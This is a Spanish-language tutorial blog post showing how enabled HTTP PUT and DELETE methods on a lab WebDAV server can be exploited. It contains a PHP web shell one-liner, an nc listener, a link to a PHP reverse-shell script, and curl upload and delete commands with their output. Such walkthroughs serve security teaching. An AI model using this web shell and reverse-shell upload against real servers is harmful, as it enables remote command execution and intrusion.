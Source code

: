 ```yaml
---
date: 2022-02-27T17:23:12.000Z
layout: post
comments: true
title: Explotación del método PUT, DELETE y CONNECT
subtitle: 'En HTTP'
description: >-
image: >-
  http://imgfz.com/i/0iKnB5f.gif
optimized_image: >-
  http://imgfz.com/i/0iKnB5f.gif
category: ciberseguridad
tags:
  - burpsuite
  - vulnerabilidad
  - http
  - exploit
  - ataque
  - Hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Para entender este tipo de explotación es necesario conocer que realiza cada uno de estos métodos que lo hacen peligrosos si están habilitados:

* PUT: Puede ser utilizado para introducir archivos maliciosos, con el fin de obtener incluso ejecución remota de comandos o también subir hipervínculos que redirijan a las victimas a sitios web fraudulentos.
* DELETE: Puede ser utilizado para eliminar archivos importantes dentro del servidor web. Lo que provocaria una denegación de servicios (DoS) o perdida de información importante.
* CONNECT: Puede emplearse para tunelizar el tráfico "peer to peer" (P2P) sobre el tráfico HTTP. El atacante se podría aprovechar de esto ocultando el contenido del tráfico por el cual actuaría bajo un usuario autorizado, con el fin de eludir el firewall o autenticaciones.

Burp Suite es una herramienta en dónde cada solicitud HTTP realizada por su navegador se intercepta por un proxy previamente configurado. Con esto se pueden llegar a ver las peticiones que se realizan sobre el servidor web.

Comenzamos realizando un nmap para detectar los métodos disponibles, aunque igualmente se puede realizar con burp suite con OPTIONS:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nmap -p80 --script http-methods 10.1.1.9
Nmap scan report for 10.1.1.9
Host is up (0.00040s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET POST HEAD CONNECT PUT DELETE OPTIONS

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

Como se verifica que tenemos habilitado PUT, procedemos a interceptar con burp suite la página web y realizamos un test inicial con un simple archivo TXT para verificar que la vulnerabilidad se encuentre presente:

![archivotxt](http://imgfz.com/i/XrqLdZ7.png)

![davtxt](http://imgfz.com/i/7BshVRK.png)

Ahora se verifica el método DELETE:

![deletetxt](http://imgfz.com/i/XM596kf.png)

Como ya se comprobó que todo está funcional, procedemos a probar ejecución de comandos con la siguiente linea en php:

```php
<?php echo system($_REQUEST['cmd']); ?>
```

Esto se realiza de la siguiente forma:

![cmdphp](http://imgfz.com/i/Ot40GFm.png)

Como se subió de forma exitosa lo procedemos a abrir y ejecutar comandos:

![ver](http://imgfz.com/i/Y8ArG7f.png)

![cmd](http://imgfz.com/i/dgHaz34.png)

Funciona perfectamente, ahora como ya podemos realizar todo esto se intentará subir un [php malicioso](https://download1510.mediafire.com/fvfmudo0p5gg/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz) para que nos devuelva un terminal interactivo por ```nc```:

Para esto nos ponemos a la escucha por el puerto que uno quiera:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nc -nlvp 443
```
Ahora procedemos a editar el .php cambiando los parámetros por nuestra IP y puerto:

![edit](http://imgfz.com/i/v3VozZH.png)

Una vez realizado esto lo subiremos por medio de curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl http://10.1.1.9/dav/ --upload-file ./php-reverse-shell.php -v     
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> PUT /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 5489
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Date: Sun, 27 Feb 2022 21:34:13 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Location: http://10.1.1.9/dav/php-reverse-shell.php
< Content-Length: 279
< Content-Type: text/html; charset=ISO-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /dav/php-reverse-shell.php has been created.</p>
<hr />
<address>Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.1.1.9 Port 80</address>
</body></html>
* Connection #0 to host 10.1.1.9 left intact
```
Como se realizó de forma exitosa lo procedemos a ejecutar:

![revphp](http://imgfz.com/i/1NX9cjf.png)
![execphp](http://imgfz.com/i/lNVRG4a.png)
![ncphp](http://imgfz.com/i/TpBctnh.png)

Y funcionó perfectamente. Ahora borraremos el .php con curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl -X DELETE http://10.1.1.9/dav/php-reverse-shell.php -v          
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> DELETE /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Date: Sun, 27 Feb 2022 21:38:55 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Content-Length: 0
< Content-Type: application/x-httpd-php
< 
* Connection #0 to host 10.1.1.9 left intact
```
![delrevphp](http://imgfz.com/i/q0rVNAG.png)

Se borra correctamente. Y se demuestra la vulnerabilidad presente. 



